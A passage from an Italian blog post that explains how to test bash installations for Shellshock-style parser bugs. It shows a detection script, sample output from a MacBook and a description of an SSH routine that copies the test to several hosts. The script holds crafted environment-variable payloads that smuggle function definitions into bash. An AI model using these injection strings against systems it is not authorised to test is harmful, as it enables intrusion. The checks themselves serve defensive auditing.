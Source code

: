 	echo -n "YES,"
else
	echo -n "NO,"
fi


$bash -c "`for i in {1..200}; do echo -n "for x$i in; do :;"; done; for i in {1..200}; do echo -n "done;";done`" 2>/dev/null
if [ $? != 0 ]; then
	echo -n "YES,"
else
	echo -n "NOT RELIABLE,"
fi

$($bash -c "f(){ x(){ _;};x(){ _;}<<a;}" 2>/dev/null)
if [ $? != 0 ]; then
	echo -n "YES,"
else
	echo -n "NO,"
fi

if [ -n "$(env x='() { _;}>_[$($())] { echo x;}' $bash -c : 2>/dev/null)" ]; then
	echo -n "YES,"
elif [ -n "$(env BASH_FUNC_x%%='() { _;}>_[$($())] { echo x;}' $bash -c : 2>/dev/null)" ]; then
	echo -n "YES,"
elif [ -n "$(env 'BASH_FUNC_x()'='() { _;}>_[$($())] { echo x;}' $bash -c : 2>/dev/null)" ]; then
	echo -n "YES,"
else
	echo -n "NO,"
fi
{% endhighlight %}

Provando questo script sul mio macbook, ottengo il seguente output:

{%highlight sh%}
/bin/bash, version 3.2.51(1)-release (x86_64-apple-darwin13),maybe vulnerable to unknown parser bugs,YES,YES,YES,NOT RELIABLE,YES,NO,
{%endhighlight%}

Colleziono quindi la shell che ho testato, la versione e poi l'output degli
exploit. Lascio la virgola dopo l'ultimo risultato perché lo script che poi
eseguirà i tentativi, appenderà l'hostname e se è riuscito ad collegarsi sulla
macchina.

### Lo script per automatizzare il tutto

Per eseguire questo script, vi servirà un utente locale sulle varie macchine
che andrete a testare. Probabilmente ne avrete già uno, sostituite quindi la
login corretta al valore 'guest'.

Una volta lanciato lo script vi chiederà la password da utilizzare per le
connessioni ssh, proverà a copiare lo script _attaccante_ sulla macchina, lo
eseguirà redirigendone l'output su un file, recupererà il file dalla macchina
target e poi farà pulizia.
